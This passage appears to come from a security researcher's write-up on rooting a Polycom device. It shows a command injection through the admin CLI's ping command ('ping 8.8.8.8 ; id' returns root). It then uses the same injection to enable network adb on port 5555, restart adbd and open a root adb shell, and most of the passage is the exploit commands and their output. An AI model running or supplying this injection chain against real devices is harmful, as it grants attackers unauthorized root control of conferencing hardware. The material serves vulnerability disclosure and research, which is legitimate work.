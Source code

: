 ```
usbShow - Display USB port name (Plugged in a USB device before running this.)
utilBufPoolStatus - Display RTP current memory usage.
VC4DumpVid - Dump video frames to disk
version - Display software and hardware version numbers.
wtPrt - Show Web Ticket status.

```

Following the modem patterns, I tested the ping command followed by a semicolon (;) to confirm if I could execute other commands, obtaining a positive result.


```bash
Admin>ping 8.8.8.8 ; id
bspLinuxPopen: Forking command 0 process '/system/bin/sh -c /system/bin/ping -c 3 -W 3 8.8.8.8 ; id > /tmp/plcmExecFifoExtra4'
1015162316|dns  |4|00|utilStripLeadZeroFrmIpAddr: ipaddress 8.8.8.8 ; id  is not a valid IP
uid=0(root) gid=0(root)
```

Listing the directories, I found the /sbin in which there is the adbd. From the fact that these devices use the Android default system, I was able habilitate the remote adb.


```bash
Admin>ll /sbin
drwxr-x---  1 0       0                0 Dec 31  1969 ./
drwxr-xr-x  1 0       0                0 Jan  1  1970 ../
-rwxr-x---  1 0       0           183616 Dec 31  1969 watchdogd
-rwxr-x---  1 0       0           183616 Dec 31  1969 ueventd
-rwxr-x---  1 0       0           124820 Dec 31  1969 healthd
-rwxr-x---  1 0       0           166188 Dec 31  1969 adbd

Admin>ping 8.8.8.8 ; setprop service.adb.tcp.port 5555
bspLinuxPopen: Forking command 0 process '/system/bin/sh -c /system/bin/ping -c 3 -W 3 8.8.8.8 ; setprop service.adb.tcp.port 5555 > /tmp/plcmExecFifoExtra6'
1015162739|dns  |4|00|utilStripLeadZeroFrmIpAddr:length of ipaddress is not correct 43

Admin>ping 8.8.8.8 ; stop adbd
bspLinuxPopen: Forking command 0 process '/system/bin/sh -c /system/bin/ping -c 3 -W 3 8.8.8.8 ; stop adbd > /tmp/plcmExecFifoExtra7'
1015162755|dns  |4|00|utilStripLeadZeroFrmIpAddr:length of ipaddress is not correct 19

Admin>ping 8.8.8.8 ; start adbd
bspLinuxPopen: Forking command 0 process '/system/bin/sh -c /system/bin/ping -c 3 -W 3 8.8.8.8 ; start adbd > /tmp/plcmExecFifoExtra8'
1015162806|dns  |4|00|utilStripLeadZeroFrmIpAddr:length of ipaddress is not correct 20
```

Done! We now have the root access to Polycom.

```
unkl4b ~> adb connect xxx.xxx.xxx.xxx
* daemon not running. starting it now on port 5037 *
* daemon started successfully *
connected to xxx.xxx.xxx.xxx:5555

unkl4b ~> adb shell

root@capri_pl_rocky_proto2:/ # id
uid=0(root) gid=0(root)
```
